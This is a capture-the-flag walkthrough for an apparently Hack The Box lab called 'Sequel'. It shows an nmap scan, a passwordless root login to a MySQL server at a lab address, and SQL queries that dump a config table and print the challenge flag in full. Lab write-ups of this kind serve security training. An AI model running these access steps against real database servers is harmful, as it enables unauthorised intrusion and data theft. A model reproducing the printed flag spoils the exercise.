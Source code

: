 # CTF Walkthrough: Sequel

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** MySQL        
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.20.114`
        - Output:
            ```
            
            ```

2. Log in to MySQL as root
    - Command: `mysql -u root -h 10.129.20.114 --skip-ssl`


3. In MySQL
    - Show all available databases
        - Command: `show databases;`
            - Output:
            ```
            +--------------------+
            | Database           |
            +--------------------+
            | htb                |
            | information_schema |
            | mysql              |
            | performance_schema |
            +--------------------+
            ```
    - Select htb database
        - Command: `use htb;`
            
    - Show all tables
        - Command: `show tables;`
            - Output:
            ```
            +---------------+
            | Tables_in_htb |
            +---------------+
            | config        |
            | users         |
            +---------------+
            ```
    - Describe config table
        - Command: `describe config;`
            - Output:
            ```
            +-------+---------------------+------+-----+---------+----------------+
            | Field | Type                | Null | Key | Default | Extra          |
            +-------+---------------------+------+-----+---------+----------------+
            | id    | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
            | name  | text                | YES  |     | NULL    |                |
            | value | text                | YES  |     | NULL    |                |
            +-------+---------------------+------+-----+---------+----------------+
            ```
    - Show contents of config table
        - Command: `select * from config;`
            - Output:
            ```
            +----+-----------------------+----------------------------------+
            |  1 | timeout               | 60s                              |
            |  2 | security              | default                          |
            |  3 | auto_logon            | false                            |
            |  4 | max_size              | 2M                               |
            |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
            |  6 | enable_uploads        | false                            |
            |  7 | authentication_method | radius                           |
            +----+-----------------------+----------------------------------+
            ```

4. Get Flag
    - Flag : 7b4bec00d1a39e3dd4e021ec3d915da8

